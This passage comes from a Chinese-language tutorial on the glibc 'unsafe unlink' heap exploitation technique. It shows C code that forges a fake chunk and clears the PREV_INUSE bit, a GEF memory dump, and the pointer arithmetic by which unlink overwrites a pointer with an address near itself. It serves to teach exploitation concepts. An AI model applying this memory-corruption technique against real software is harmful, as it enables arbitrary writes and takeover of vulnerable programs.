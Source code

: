 由于此时fake chunk的头部从0x555555757010处开始，因此P的size实际为0x80，因此需要将chunk1_ptr的pre_size位进行修改，同时将其PREV_INUSE标志位修改为0，从而使P成为一个free chunk，代码如下：

```c
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	chunk1_hdr[0] = malloc_size;
	chunk1_hdr[1] &= ~1;
```

此时内存情况如下：

```shell
gef➤  x /20gx 0x0000555555757010
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000555555756018	0x0000555555756020
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000000
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000000
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000000
0x555555757090:	0x0000000000000080	0x0000000000000090
0x5555557570a0:	0x0000000000000000	0x0000000000000000
```

这样此时再把chunk1_ptr给free掉，就能够满足unlink的触发机制：

```c
    /* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = p->prev_size;
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);
    }
```

这时chunk0_ptr会被合并，然后调用unlink函数从双向链表中剔除，而双向链表的变化如下：

```
FD->bk = BK
BK->fd = FD
```

由于：

```
FD = P->fd = &P - 0x18
BK = P->bk = &P - 0x10
FD->bk = *(&P - 0x18 + 0x18) = P
BK->fd = *(&P - 0x10 + 0x10) = P
```

所以： 

```
FD->bk = P = BK = &P - 0x10
BK->fd = P = FD = &P - 0x18
```
